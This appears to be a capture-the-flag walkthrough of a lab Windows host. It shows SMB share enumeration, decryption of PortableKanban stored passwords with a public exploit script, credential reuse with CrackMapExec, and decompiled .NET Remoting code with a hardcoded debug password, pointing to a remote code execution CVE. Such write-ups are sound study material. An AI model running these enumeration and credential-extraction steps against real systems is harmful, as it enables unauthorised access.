

# SMB


[SMB has always been a network file sharing protocol. As such, SMB requires network ports on a computer or server to enable communication to other systems. SMB uses either IP port 139 or 445](https://www.varonis.com/blog/smb-port/)

# smbclient

```sql
$ smbclient -L 10.10.10.219
\Enter WORKGROUP\kali's password:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        dev             Disk
        IPC$            IPC       Remote IPC
        kanban          Disk
SMB1 disabled -- no workgroup available
```
# smbmap

```
$ smbmap -H 10.10.10.219
[+] IP: 10.10.10.219:445        Name: 10.10.10.219
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        dev                                                     NO ACCESS
        IPC$                                                    NO ACCESS       Remote IPC
        kanban                                                  READ ONLY
```

# Mounting the smb share

```
sudo mount -t cifs  -o guest  "//10.10.10.219/kanban" /mnt/test
```





# User Administrator & lars

```bash
$ cat PortableKanban.pk3
{"Columns":[{"Id":"4757781032fd41b2a4511822e2c08850","SortOrder":0,"Name":"Demo","Limit":0,"TaskOrder":{"SortType":"None","Parameters":[{"Field":"Completed","SortOrder":"Descending"},{"Field":"Deadline","SortOrder":"Ascending"},{"Field":"Priority","SortOrder":"Descending"},{"Field":"Topic","SortOrder":"Ascending"},{"Field":"Person","SortOrder":"Ascending"}]},"AutoComplete":false,"ResetCompleted":false,"TimeStamp":637409769443121006}],"Tasks":[{"Id":"33870d6dfe4146718ba0b2c9f7bc05cf","SeriesId":"00000000000000000000000000000000","SortOrder":"oGdBKcFw","ColumnId":"4757781032fd41b2a4511822e2c08850","TopicId":"00000000000000000000000000000000","PersonId":"00000000000000000000000000000000","Text":"New Task","Priority":"Low","Created":"\/Date(1605380100000+0100)\/","CreatedBy":"e8e29158d70d44b1a1ba4949d52790a0","Modified":"\/Date(-62135596800000)\/","ModifiedBy":"00000000000000000000000000000000","Deadline":"\/Date(1605308400000+0100)\/","HasDeadline":false,"Completed":"\/Date(1605308400000+0100)\/","CompletedBy":"00000000000000000000000000000000","Done":false,"Canceled":false,"Link":"","Subtasks":[],"Tags":[],"Estimate":0,"Progress":0,"Points":0,"Comments":[],"CustomFields":{},"TimeStamp":637409769542424146}],"TimeTracks":[],"Persons":[],"Topics":[],"Tags":[],"Views":[],"Users":[{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"k+iUoOvQYG98PuhhRC7/rg==","Role":"Admin","Inactive":false,"TimeStamp":637409769245503731},{"Id":"0628ae1de5234b81ae65c246dd2b4a21","Name":"lars","Initials":"","Email":"","EncryptedPassword":"Ua3LyPFM175GN8D3+tqwLA==","Role":"User","Inactive":false,"TimeStamp":637409769265925613}],"ServiceMessages":[],"CustomFieldDescriptors":[],"MetaData":{"Id":"ffffffffffffffffffffffffffffffff","SchemaVersion":"4.2.0.0","SchemaVersionModified":"\/Date(1605380100000+0100)\/","SchemaVersionModifiedBy":"e8e29158d70d44b1a1ba4949d52790a0","SchemaVersionChecked":"\/Date(-62135596800000-0000)\/","SchemaVersionCheckedBy":"00000000000000000000000000000000","TimeStamp":637409769001918463}}
```

# searchsploit

```bash
searchsploit kanban
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PortableKanban 4.3.6578.38136 - Encrypted Password Retrieval                                                               | windows/local/49409.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


# Exploit


```
# Exploit Title: PortableKanban 4.3.6578.38136 - Encrypted Password Retrieval
# Date: 9 Jan 2021
# PortableKanBan stores credentials in an encrypted format
# Reverse engineering the executable allows an attacker to extract credentials from local storage
# Provide this program with the path to a valid PortableKanban.pk3 file and it will extract the decoded credentials
```

# Decrypting the password

```bash
$ python3 49409.py PortableKanban.pk3 
Administrator:G2@$btRSHJYTarg
lars:G123HHrth234gRG
```


# CrackMapExec reveals Windows version

```sql
$ cme smb 10.10.10.219 -u 'lars' -p 'G123HHrth234gRG' --users
SMB         10.10.10.219    445    SHARP            [*] Windows 10.0 Build 17763 x64 (name:SHARP) (domain:Sharp) (signing:False) (SMBv1:False)
```


# Checking smb shares permissions with the new credentials

```sql
smbmap -H 10.10.10.219 -u 'lars'  -p 'G123HHrth234gRG'
[+] IP: 10.10.10.219:445        Name: 10.10.10.219                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        dev                                                     READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        kanban                                                  NO ACCESS
```

# Mounting the dev share

```bash
$ mount -t cifs -o user='lars',pass='G123HHrth234gRG' //10.10.10.219/dev /mnt/test/
$ ls
Client.exe  notes.txt  RemotingLibrary.dll  Server.exe
```

# notes.txt
```bash
Todo:
    Migrate from .Net remoting to WCF
    Add input validation
```


# Net binaries

```bash
file *
Client.exe:          PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
notes.txt:           ASCII text, with CRLF line terminators
RemotingLibrary.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows
Server.exe:          PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

### Net binary decompilation through [dnSpy](https://github.com/dnSpy/dnSpy/)

# Client.exe
```C
// RemotingSample.Client
// Token: 0x06000001 RID: 1 RVA: 0x00002050 File Offset: 0x00000250
private static void Main(string[] args)
{
	ChannelServices.RegisterChannel(new TcpChannel(), true);
	IDictionary channelSinkProperties = ChannelServices.GetChannelSinkProperties((Remoting)Activator.GetObject(typeof(Remoting), "tcp://localhost:8888/SecretSharpDebugApplicationEndpoint"));
	channelSinkProperties["username"] = "debug";
	channelSinkProperties["password"] = "SharpApplicationDebugUserPassword123!";
}
```

# Server.exe

```bash
private static void StartServer()
{
	Hashtable hashtable = new Hashtable();
	((IDictionary)hashtable)["port"] = 8888;
	((IDictionary)hashtable)["rejectRemoteRequests"] = false;
	BinaryServerFormatterSinkProvider binaryServerFormatterSinkProvider = new BinaryServerFormatterSinkProvider();
	binaryServerFormatterSinkProvider.TypeFilterLevel = TypeFilterLevel.Full;
	ChannelServices.RegisterChannel(new TcpChannel(hashtable, new BinaryClientFormatterSinkProvider(), binaryServerFormatterSinkProvider), true);
	RemotingConfiguration.CustomErrorsMode = CustomErrorsModes.Off;
	RemotingConfiguration.RegisterWellKnownServiceType(typeof(Remoting), "SecretSharpDebugApplicationEndpoint", WellKnownObjectMode.Singleton);
	Console.WriteLine("Registered service");
	for (;;)
	{
		Console.ReadLine();
	}
}
```

# RemotingLibrary.dll

```sql
[assembly: AssemblyVersion("1.0.0.0")]
[assembly: CompilationRelaxations(8)]
[assembly: RuntimeCompatibility(WrapNonExceptionThrows = true)]
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints)]
[assembly: AssemblyTitle("RemotingLibrary")]
[assembly: AssemblyDescription("")]
[assembly: AssemblyConfiguration("")]
[assembly: AssemblyCompany("")]
[assembly: AssemblyProduct("RemotingLibrary")]
[assembly: AssemblyCopyright("Copyright ©  2015")]
[assembly: AssemblyTrademark("")]
[assembly: ComVisible(false)]
[assembly: Guid("c3613f60-abee-44bc-92c7-60f3ee299954")]
[assembly: AssemblyFileVersion("1.0.0.0")]
[assembly: TargetFramework(".NETFramework,Version=v4.5", FrameworkDisplayName = ".NET Framework 4.5")]
```

# searchsploit 

```bash
.NET Remoting Services - Remote Command Execution                 | windows/remote/35280.txt
```

# CVE-2014-1806

```sql
The .NET Remoting implementation in Microsoft .NET Framework 1.1 SP1, 2.0 SP2, 3.5, 3.5.1, 4, 4.5, and 4.5.1 does not properly restrict memory access,
which allows remote attackers to execute arbitrary code via vectors involving malformed objects, aka "TypeFilterLevel Vulnerability."
```